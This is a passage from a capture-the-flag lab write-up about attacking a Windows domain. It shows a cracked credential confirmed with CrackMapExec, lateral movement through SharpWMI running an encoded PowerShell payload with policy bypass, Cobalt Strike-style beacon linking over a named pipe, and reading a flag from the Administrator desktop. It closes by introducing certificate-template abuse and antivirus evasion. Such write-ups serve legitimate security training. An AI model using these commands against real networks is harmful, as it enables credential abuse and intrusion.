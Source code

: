 2. **Successful Login:**
   ```
   [+] hackr.games\jjohn:TheJsPass1@# (Pwn3d!)
   ```
   This indicates successful authentication with SMB using the provided credentials. As now from `Crackmapexec` output we know that these creds are valid for `js-pc` so we will use WMI to perform lateral movement on the `js-pc`

### Lateral Movement with WMI:

1. **Execute Command on `MSSQL Server Beacon`:**
   ```
   execute-assembly /Users/ahmedpinger/Documents/Tools/SharpWMI/SharpWMI/bin/Release/SharpWMI.exe action=exec computername=js-pc.hackr.games command="powershell -ep bypass -enc SQB...FAF"
   ```
   This command leverages WMI (Windows Management Instrumentation) to execute a PowerShell command on the target machine `js-pc`. WMI is a powerful management framework for Windows operating systems.

2. **Linking Beacons:**
   ```
   link js-pc.hackr.games pinger
   ```
   This command links the beacon to `js-pc.hackr.games` with the name pipe `pinger`. Beacon linking is a method used in penetration testing to establish a connection between attacker and target systems. Use either `connect` or `link` depend on your payload type.

### AV Bypass and Accessing Flag:

1. **Navigate to Desktop:**
   ```
   cd C:\Users\Administrator\Desktop
   ```
   This command changes the directory to the desktop of the Administrator user. Accessing the desktop directory is common to look for files and flags left by administrators or other users.

2. **Extract Flag:**
   ```
   powerpick type flag.txt
   ```
   This command extracts and displays the content of the `flag.txt` file. It retrieves the flag which is typically hidden or protected.

### Flag:
   ```
   flag{SchTsk_Creds_with_DPAPI_are_dangerous}
   ```
   This is the extracted flag. It signifies the successful completion of the penetration testing scenario.

---
## Flag 6

Flag 6 involves exploiting a vulnerable certificate template, we will perform whole exploitation with the `MSSQL Server Beacon` because the `JS-PC` is running a `Windows 11` and it's harder to bypass AV on `Windows 11` as compared to the `Windows Server 2022`.
